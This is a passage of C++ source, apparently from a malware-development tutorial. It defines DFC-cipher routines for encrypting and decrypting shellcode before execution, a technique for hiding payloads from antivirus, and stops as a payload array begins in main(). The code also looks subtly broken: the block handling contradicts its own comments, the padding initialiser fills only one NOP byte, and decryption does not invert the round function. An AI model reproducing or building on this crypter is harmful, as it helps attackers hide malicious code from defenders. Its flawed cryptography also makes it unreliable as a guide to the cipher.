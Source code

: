 ```cpp
  for (int i = 0; i < ROUNDS; i++) {
    G(&left, &right, K[i]);
  }

  // final left-right swap
  block[0] = right;
  block[1] = left;
}

// DFC decryption function
void dfc_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // final left-right swap
  block[0] = right;
  block[1] = left;
}

// function to encrypt shellcode using DFC
void dfc_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_encrypt(ptr, key);
    ptr += 4;  // move to the next 128-bit block (4 * 32-bit words)
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_encrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

// function to decrypt shellcode using DFC
void dfc_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, uint8_t* key) {
  key_schedule(key);  // generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    dfc_decrypt(ptr, key);
    ptr += 4;
  }
  // handle remaining bytes by padding
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = { 0x90 };
    memcpy(pad, ptr, remaining);
    dfc_decrypt((uint32_t*)pad, key);
    memcpy(ptr, pad, remaining);
  }
}

int main() {
  unsigned char my_payload[] = 
```